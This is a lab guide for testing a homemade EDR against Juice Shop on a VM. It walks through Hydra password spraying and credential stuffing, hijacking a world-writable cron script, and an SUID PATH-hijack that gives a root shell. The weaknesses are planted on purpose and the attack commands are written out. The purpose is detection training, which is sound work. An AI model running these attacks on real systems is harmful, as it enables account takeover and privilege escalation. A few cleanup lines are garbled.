# Brute force + os guide

## Dependencies 

### Pip

This technically isn’t a dependency but will be used to install some of
them.

sudo apt install pip

### Python

sudo apt install python3

### Psutil

Psutil is needed for the suid monitoring agent to function, it does not
need to be configured as it is just a python library containing some
built in functions to get process telemetry.

sudo pip install psutil --break-system-packages

Check that it is importable the same way the pipeline runs it, this
should print OK to the terminal:

sudo python3 -c "import psutil; print('OK')"

### Watchdog

Watchdog is needed for the cron_monitor component and is another python
library similar to psutil. It is primarily being used for file integrity
monitoring.

sudo pip install watchdog --break-system-packages

Check that it is importable the same way the pipeline runs it, this
should print OK to the terminal:

python3 -c "import watchdog; print('OK')"

### Cron

Cron should already be present on the system but check anyway. It is a
Linux system process similar to the Windows task scheduler which runs
processes automatically on boot and at fixed intervals. Cron runs with
root privileges and if it is writable by a low privilege user it can be
hijacked to execute malicious code with elevated privilege.

sudo apt install cron

### Openssh server

Openssh server is one of the services which the brute force attacks
target and despite ssh itself being usable without it, the server module
specifically needs to be installed for the attack to function.

sudo apt install openssh-server -y

sudo systemctl enable --now ssh

Check the status:

systemctl status ssh



### Nginx

NGINX is a reverse proxy which sits in front of the juice shop
application and is configured here to capture and log network traffic
directed at its port (8081). This is needed to generate the telemetry
for the brute force attack against the juice login page. Important note:
This requires that the attacker actually target the proxy port instead
of just going to juice shops directly (port 3000), so to deal with this
in a production environment port 3000 itself would be blocked making it
so the only way to get to the web app would be through the proxy. This
does create a fairly significant amount of resource utilization when
there is a lot of network traffic, but it’s a pretty typical practice in
industry.

sudo apt install nginx

Installing nginx on it’s own isn’t enough, it needs to be configured to
log things correctly.

sudo nano /etc/nginx/nginx.conf

Add the following to the http {} block in /etc/nginx/nginx.conf:

log_format juice_login escape=none '\$remote_addr \[\$time_iso8601\]
"\$request" '

'\$status BODY:\$request_body';



Now create /etc/nginx/sites-available/juiceshop-proxy:

sudo nano /etc/nginx/sites-available/juiceshop-proxy

Paste the following in the file:

server {

listen 8081;

access_log /var/log/nginx/juiceshop_access.log juice_login;

location / {

proxy_pass http://127.0.0.1:3000;

proxy_set_header Host \$host;

proxy_set_header X-Real-IP \$remote_addr;

}

}

Now enable the site, test the config file syntax, and reload nginx:

sudo ln -s /etc/nginx/sites-available/juiceshop-proxy
/etc/nginx/sites-enabled/

sudo nginx -t

sudo systemctl reload nginx

# Attacks

## SSH password spray

A password spray targets multiple different accounts on a system with a
small number of common passwords to get around detection logic that
relies on the same account being targeted over and over again.

### Setup

Requires:

- Openssh server

- Hydra

- Username list

- Ssh_monitor.py

- Brute_force_detection.py

- Brute_force_response.py

On Juice, check the status of openssh server:

systemctl status ssh

It should show as enabled like in the screenshot in dependencies.

Ensure that the EDR modules are running:

./start.sh

Next make some dummy accounts on the Juice VM for the attack to target,
3 is sufficient for the detection logic to recognize it as a password
spray.

sudo adduser target1

It’s fine to make the password the same as the username, no need to add
any other details, just hit enter until you’re prompted \[y/n\] and
respond y.

On Kali, make a text file called userlist.txt and populate it with the
names of the target accounts, one per line.



Make another text file called passlist.txt with 2-3 passwords in it,
they don’t need to be correct.



###  Attack

On Kali:

Open a terminal and navigate to the location of userlist.txt and
passlist.txt.

Hydra -L userlist.txt -P passlist.txt -u ssh://\<juice ip\> -t 4 -V

-L specifies the login username, -P the password, -t specifies the speed
(higher number is faster), and -V makes it print each login attempt to
the terminal.



The alert should say that it is a password spray:





### Troubleshooting

Tail the log to make sure it is being appended, while it’s being tailed
try to ssh to the juice VM:

tail -n 50 .edr1-runtime/logs/brute-force.log

Make sure all the processes are running.

pstree -p \$(cat .edr1-runtime/pids/brute-force.pid)



If you see the following it means that watchdog doesn’t have root
privileges and needs to be install properly with the pip command in the
dependencies section.



After reinstalling watchdog, restart the EDR, tail
edr_bruteforce_facts.jsonl, and then try to ssh in with a bad password
to see if it is being appended. Output should look like:



## Juice credential stuffing

Credential stuffing differs from a password spray in that it uses a
pre-built list of credential pairs, typically ones that are known to be
real accounts. Juice shop does not automatically log any detailed
telemetry about login attempts, so this attack requires the use of a
reverse proxy configured to log events. The attack itself needs to be
targeted at the port running the reverse proxy instead of Juice,
otherwise the logging won’t occur.

### Setup

Requirements:

- Juice shop

- NGINX

- Hydra

- Juice_shop_monitor.py

- Brute_force_detection.py

- Brute_force_response.py

Ensure the EDR is running:

./start.sh

Make sure that Nginx is enabled:

sudo systemctl status nginx

Navigate to Juice Shop by opening a browser and entering Juice’s IP
followed by :3000 and click on account \> login \> Not yet a customer?

Make at least 3 juice accounts which will be targeted by the attack.

On Kali, create a file called combo.txt and populate it with the emails
for the accounts you just created and some common passwords like so:



The passwords don’t need to be correct for this to work.

### Attack

To execute the attack open a terminal on Kali where combo.txt is located
and enter the following:

hydra -C combo.txt 192.168.4.130 -s 8081 http-post-form -t 4 -V \\

'/rest/user/login:{"email"\\"^USER^","password"\\"^PASS^"}:H=Content-Type\\
application/json:1=:S=authentication'

This may need to be copied and pasted in two steps due to the way it
handles \\







### Troubleshooting

## Cron hijacking

Cron is a standard Linux system process which runs at fixed intervals
and on boot to do things like start processes. It always runs with root
privileges so if a crontab is writable by a low privilege user, then it
can be used to execute malicious code with root privileges.

### Setup

Requirements:

- Cron

- Watchdog

- Cron_monitor.py

- Cron_detection.py

- Cron_response.py

- SSH – optional but more realistic

Do this step BEFORE launching the dashboard. Create a vulnerable
scenario by making a cron entry which is writable by any user:

sudo bash -c 'cat \> /opt/lab_backup.sh \<\< "EOF"

\#!/bin/bash

echo "Backup ran at \$(date)" \>\> /var/log/lab_backup.log

EOF'

sudo chmod 777 /opt/lab_backup.sh

echo "\* \* \* \* \* root /opt/lab_backup.sh" \| sudo tee
/etc/cron.d/lab_backup

Make sure the EDR dashboard is running with all the cron modules:

./start.sh

### Attack

On Kali, SSH into a low privilege user, you can use a separate account
made specifically for this or you could use one of the target accounts
from the SSH password spray.

As the low privilege user check the current permissions of the cron
entry:

ls -la /opt/lab_backup.sh

cat /etc/cron.d/lab_backup

If cron_response.py is working correctly it should have reverted the
permissions and that entry should not be writable. If it is then the
attack can run:

cat \> /opt/lab_backup.sh \<\< 'EOF'

\#!/bin/bash

id \> /tmp/hijack_proof.txt

echo "Hijacked by \$(whoami) at \$(date)" \>\> /tmp/hijack_proof.txt

EOF

This changes the cron entry and they could insert some malicious code in
here. Cron will take up to 60 seconds to run and the alert should be
generated when this happens.

To clean up/restart:

./start.sh stop

sudo rm /etc/cron.d/lab_backup

sudo rm -f /opt/lab_backup.sh sudo rm -f

sudo rm -f /var/lib/edr_cron_backups/opt_lab_backup.sh.bak

sudo rm -f /var/lib/edr_cron_backups/baseline_hashes.json

Clear the EDR logs:

sudo truncate -s 0 /var/log/edr_os_facts.jsonl

sudo truncate -s 0 /var/log/edr_os_alerts.jsonl

sudo truncate -s 0 /var/log/edr_os_response_actions.jsonl

### Troubleshooting

## SUID abuse

Requirements:

- Psutil

- Linpeas – optional for recon

- Suid_monitor.py

- Suid_detection.py

- Suid_response.py

- SSH – optional for realism

### Setup

Make sure the EDR modules and dashboard are running

./start.sh

Create a vulnerable suid binary on Juice which an attack can exploit to
launch a shell with elevated privilege.

On Juice:

cat \> /tmp/lab_vuln.c \<\< 'EOF'

\#include \<unistd.h\>

int main() {

execlp("ls", "ls", "-la", "/tmp", NULL);

return 0;

}

EOF

Copy these 1 at a time:

gcc -o /tmp/lab_vuln /tmp/lab_vuln.c

sudo cp /tmp/lab_vuln /usr/local/bin/lab_vuln

sudo chown root:root /usr/local/bin/lab_vuln

sudo chmod 4755 /usr/local/bin/lab_vuln

### Attack

On Kali SSH into a low priv account on the juice VM:

Ssh \<low-priv-account\>@\<juice-ip\>

Exploit the binary:

mkdir /tmp/exploit && cd /tmp/exploit

printf '%s\n' '#!/bin/bash -p' \> /tmp/exploit/ls

printf '%s\n' 'echo "\[+\] Escalated shell running as: \$(id)"' \>\>
/tmp/exploit/ls

printf '%s\n' 'exec /bin/bash -p' \>\> /tmp/exploit/ls chmod +x
/tmp/exploit/ls

chmod +x /tmp/exploit/ls

PATH=/tmp/exploit:\$PATH /usr/local/bin/lab_vuln

The response engine should pick up the change in the cron entry and
automatically strip the SUID from it, which makes it unable to execute
with root
privileges.
